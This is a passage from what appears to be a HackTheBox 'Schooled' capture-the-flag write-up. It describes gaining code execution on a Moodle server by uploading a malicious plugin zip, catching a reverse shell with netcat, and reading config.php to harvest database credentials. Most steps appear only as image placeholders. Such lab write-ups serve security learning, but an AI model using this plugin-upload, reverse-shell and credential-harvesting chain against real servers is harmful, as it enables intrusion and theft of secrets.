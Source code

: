 
![[Pasted image 20210706133047.png]]



![[Pasted image 20210706134717.png]]

Uploading zip file through add plugins for RCE-

![[Pasted image 20210706134946.png]]


![[Pasted image 20210706135636.png]]

Triggering the payload-

```bash
moodle.schooled.htb/moodle/blocks/nap/lang/en/block_rce.php
```

### Shell -

```bash
root@napster:~/Documents/HTB/Schooled# nc -nvlp 9002
listening on [any] 9002 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.10.234] 29856
FreeBSD Schooled 13.0-BETA3 FreeBSD 13.0-BETA3 #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021     root@releng1.nyi.freebsd.org:/usr/obj/usr/src/amd64.amd64/sys/GENERIC  amd64
 7:07PM  up  2:41, 0 users, load averages: 2.13, 1.16, 0.93
USER       TTY      FROM    LOGIN@  IDLE WHAT
uid=80(www) gid=80(www) groups=80(www)
sh: can't access tty; job control turned off
$ whoami
www
$ id
uid=80(www) gid=80(www) groups=80(www)
```

### Enumeration -

```bash
$ pwd
/usr/local/www/apache24/data/moodle
$ cat config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';
```